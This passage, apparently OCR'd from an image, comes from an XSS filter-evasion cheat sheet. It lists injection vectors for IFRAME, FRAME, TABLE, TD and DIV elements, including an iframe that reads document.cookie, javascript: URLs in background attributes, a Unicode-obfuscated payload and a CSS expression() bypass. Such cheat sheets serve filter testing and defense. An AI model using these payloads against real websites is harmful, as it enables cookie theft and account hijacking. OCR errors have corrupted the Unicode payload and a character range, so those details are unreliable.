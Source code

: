 ### IFRAME Event Based 
IFrames and most other elements can use event based mayhem like the following:
 
```
    <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME> 
```
 (Submitted by: David Cross)
 ### FRAME
 Frames have the same sorts of XSS problems as iFrames
 
```
    <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET> 
```
 ### TABLE
 
```
    <TABLE BACKGROUND="javascript:alert('XSS')"> 
```
 #### TD
 Just like above, TD\'s are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors: 
```
     <TABLE><TD BACKGROUND="javascript:alert('XSS')">
```
 
### DIV 
#### DIV Background-image 
```
     <DIV STYLE="background-image: url(javascript:alert('XSS'))">
```
 
#### DIV Background-image with Unicode XSS Exploit 
This has been modified slightly to obfuscate the URL parameter: 
```
     <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```
 
(Original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail)
 #### DIV Background-image Plus Extra Characters
 RSnake built a quick XSS fuzzer to detect any erroneous characters that
are allowed after the open parenthesis but before the JavaScript directive in IE. These are in decimal but you can include hex and add
padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):
 
```
    <DIV STYLE="background-image: url(javascript:alert('XSS'))"> 
```
 #### DIV Expression
 A variant of this attack was effective against a real-world XSS filter
by using a newline between the colon and `expression`: 
```
     <DIV STYLE="width: expression(alert('XSS'));">
```
 